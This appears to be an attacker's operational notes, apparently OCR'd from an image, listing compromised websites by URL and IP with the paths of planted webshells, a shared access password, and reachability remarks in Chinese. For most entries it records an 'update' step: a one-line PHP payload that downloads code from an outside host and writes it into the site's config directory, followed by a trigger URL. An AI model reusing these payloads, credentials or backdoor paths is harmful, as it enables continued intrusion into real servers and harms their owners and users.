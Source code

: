 http://luciya.top/template/template_init.php |mmk123 |没有备案 | 106.52.206.209 | 连接不上

http://106.52.206.209/template/template_init.php |mmk123 
代码更新：0608 ✅
http://106.52.206.209/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://106.52.206.209/config/httpd.php?d=up

http://114.55.55.234/template/template_init.php |mmk123 |www.glassflake.cn  没有备案 | Invalid domain 
代码更新：0608 ✅
http://114.55.55.234/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://114.55.55.234/config/httpd.php?d=up

http://120.26.246.137/template_init.php |mmk123
代码更新：0608 ✅
http://120.26.246.137/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://120.26.246.137/config/httpd.php?d=up

http://47.120.70.53/template/template_init.php |mmk123 
代码更新：0608 ✅
http://47.120.70.53/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://47.120.70.53/config/httpd.php?d=up

http://cfvvv.com/template/dx/images/m1.php |mmk123 |  42.194.134.121  | 连接不上
https://jj.cfvvv.com/template/template_init.php |mmk123 |  42.194.134.121
http://120.27.156.157:8082/template/template_init.php |mmk123 

http://www.xn--wlq673eova83m.cn/core/extend/code/simple.php |mmk123 |  124.222.129.233
代码更新：0608 ✅
http://www.xn--wlq673eova83m.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.xn--wlq673eova83m.cn/config/httpd.php?d=up

http://124.222.129.233/core/extend/code/simple.php |mmk123 
代码更新：0608 ✅
http://124.222.129.233/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://124.222.129.233/config/httpd.php?d=up

http://47.106.117.124/template/template_init.php |mmk123 | 连接不上
